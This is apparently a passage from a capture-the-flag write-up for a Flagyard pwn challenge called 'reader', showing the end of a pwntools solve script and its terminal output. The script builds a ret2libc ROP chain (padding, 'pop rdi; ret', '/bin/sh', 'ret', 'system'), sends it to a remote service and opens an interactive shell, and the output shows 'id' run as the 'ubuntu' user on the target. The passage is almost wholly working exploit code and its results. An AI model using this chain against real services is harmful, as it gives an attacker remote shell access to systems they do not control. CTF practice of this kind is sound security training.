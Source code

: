 ```python

pop_rdi = libc.address + 0x10f75b
ret = libc.address + 0x2882f
binsh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']

print(f'libc.address: {hex(libc.address)}')
print(f'system: {hex(system)}')
print(f'binsh: {hex(binsh)}')
print(f'pop rdi; ret: {hex(pop_rdi)}')
print(f'ret: {hex(ret)}')

payload = flat([
    offset * b'A',
    pop_rdi, binsh, ret, system
])

io.sendafter('read:', payload)

io.interactive()
```

```
mcsam@0x32:~/Desktop/ctf/flagyard/pwn/reader$ python3 solve.py REMOTE 34.252.33.37 30506
[*] '/home/mcsam/Desktop/ctf/flagyard/pwn/reader/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to 34.252.33.37 on port 30506: Done
[*] Switching to interactive mode
 can't open this file 
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu)
$  
```
